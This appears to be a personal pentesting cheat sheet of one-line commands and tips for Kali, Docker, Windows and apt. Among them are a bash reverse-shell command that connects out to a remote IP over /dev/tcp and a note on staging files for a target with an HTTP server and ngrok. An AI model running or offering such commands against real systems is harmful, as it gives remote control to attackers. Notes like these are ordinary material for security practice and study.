 # Thought Dump

- If docker breaks: `sudo mkdir /sys/fs/cgroup/systemd`
- Remove guest user on Windows 10: `net user guest /active:no`
- Command to pop a reverse shell: `/bin/bash -c "bash -i >& /dev/tcp/10.10.15.30/443 0>&1"`
- Generate ssh key for remote authentication without a password: `ssh-keygen -t rsa -b 4096`
- Command to run a simple http server with the scope of the current directory: `python -m http.server 80`, **PRIMARY METHOD OF PULLING FILES WITH WGET ON THE TARGET (combined with ngrok)**
- Screenshot to clipboard on Windows 10 with the hotkey: `Windows+shift+s`
- When attempting to spawn a shell on a foreign platform, look up "how to run commands on (Insert Platform)"
- Decrypt TLS: https://www.comparitech.com/net-admin/decrypt-ssl-with-wireshark/
- Update Kali Linux: `sudo apt update && sudo apt full-upgrade -y && sudo apt autoremove`
	- `&&` specifies so that the second command will only execute if the first one executes successfully
- Disable screen saver on kali by searching: `Setting -> Power Manager -> Security` and disabling it
- If upgrade fails in Kali Linux, change `/etc/apt/sources.list` from http to https (this will prevent antivirus from catching it on the host)
- If copy/paste stops working in VMware, run: `sudo restart-vm-tools`
- If crackmapexec does not work the first time running, run: `sudo crackmapexec`
- Mount an smb folder with the command: `sudo mount -t cifs \\\\<Target IP>\\<Target Path> <Destination Path>`
- Remove PEM password with command: `openssl rsa -in <Original Key> -out <New Key>`
- Change group with the command: `chgrp`
- Change text to base64 with the following command: `echo '<Original Text>' | base64 -w 0`
- Update apt key if located in `/etc/apt/trusted.gpg`: `sudo cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d`
- Check public IP from CLI: `curl ifconfig.co`
- Find hidden subdomains through certificate transparency logs with https://crt.sh and search for `%.<Target Domain>`
- Learn DNS: https://www.cloudflare.com/learning/dns/dns-server-types/
- Update local database: `sudo updatedb`
- Apt repository sources are located in `/etc/apt/sources.list` and `/etc/apt/sources.list.d/`
- Clear terminal with `ctrl+l`
- Use port `9001` for reverse shell for consistency
- `\` is an escape character, `\\` in a string in code generally refers to just `\`
- Start PowerShell in Kali with `pwsh`
- Test command execution by setting up a simple 
- `dumpbin` is a windows program you can use to check dependencies (DLLs) with `/imports` flag
- Create a sequential ID wordlist with
	- `for i in $(seq 1 1000); do echo $i >> ids.txt; done`
